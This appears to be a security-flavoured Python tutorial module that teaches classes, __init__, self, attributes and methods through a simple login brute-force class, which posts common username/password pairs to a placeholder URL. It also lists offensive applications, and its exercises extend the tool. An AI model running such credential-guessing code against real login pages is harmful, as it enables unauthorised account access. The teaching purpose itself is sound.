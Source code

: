 
# 02_attributes_methods.md

## 🔓 Real-World Cybersecurity Use Case
Imagine you're developing a login brute-force tool. You want to store each target's login page and a list of usernames/passwords. You'll also need methods to try credentials and store results.
Attributes represent the tool's settings; methods represent the tool's actions.

## 💻 Python Code First – Brute Force Tool Example
```python
import requests

class LoginBruteForcer:
    def __init__(self, target_url):
        self.target_url = target_url  # attribute
        self.successful_logins = []   # attribute

    def try_login(self, username, password):  # method
        response = requests.post(self.target_url, data={'username': username, 'password': password})
        if "Welcome" in response.text:
            print(f"[+] Login successful: {username}:{password}")
            self.successful_logins.append((username, password))

    def run(self, wordlist):  # method
        for username, password in wordlist:
            self.try_login(username, password)

# Example usage
if __name__ == "__main__":
    wordlist = [('admin', 'admin123'), ('admin', '123456'), ('root', 'toor')]
    bruteforcer = LoginBruteForcer("http://example.com/login")
    bruteforcer.run(wordlist)
```

## 📘 Concept Explanation

### 🔑 What is `__init__`?

- `__init__` is a **special method** in Python classes.
- It runs **automatically** when you create a new object from the class.
- It's called the **constructor** because it “constructs” the object and sets up its initial attributes.

Example:
```python
bruteforcer = LoginBruteForcer("http://example.com/login")
```
This line automatically triggers `__init__()` and assigns the URL to `self.target_url`.

---

### 🔁 What is `self`?

- `self` refers to the **current object**.
- It allows each object to keep **its own copy** of variables and methods.
- Without `self`, all objects would share the same data.

```python
self.target_url = target_url
```
This means: "store the given `target_url` into this specific object’s `target_url`."

---

### What Are Attributes?

Attributes are variables attached to an object.
They store information about the object’s current state.

In our example:
- `target_url` is an attribute that holds the login page URL.
- `successful_logins` stores valid login combinations found.

---

### What Are Methods?

Methods are functions defined inside a class.
They describe what the object can do.

In our tool:
- `try_login()` is a method that tries a username/password.
- `run()` is a method that loops through credentials.

---

## 🛠 Offensive Security Application

Attributes and methods are key when building:

- Brute-force tools (store targets, handle attempts)
- Port scanners (track open ports, define scan logic)
- Exploit chains (track vulnerable targets, run steps)

They help organize logic cleanly:

- **Attributes** = tool configuration or state (IP, ports, credentials)
- **Methods** = actions your tool performs (scan, send, fuzz, etc.)

---

## 🔐 Connection to SOLID

This strengthens the **Single Responsibility Principle (SRP)**:

> “Each method should have one job.”

- `try_login()` only tries one login
- `run()` handles the loop
- `__init__` sets up the object

Keeping logic modular helps you test and reuse code.

---

## ✅ Exercises / Next Steps

➕ Add an attribute to limit failed login attempts.  
📊 Add a method to print a summary report of results.  
🔐 Extend the tool to support a login form with custom field names (e.g., user, pass).

---

## 🔗 Related Modules

- Previously: `01_class_object.md` – this builds on the basics of classes and objects.
- Coming Up: `03_encapsulation.md` – we’ll protect internal attributes like `successful_logins` from being modified externally.
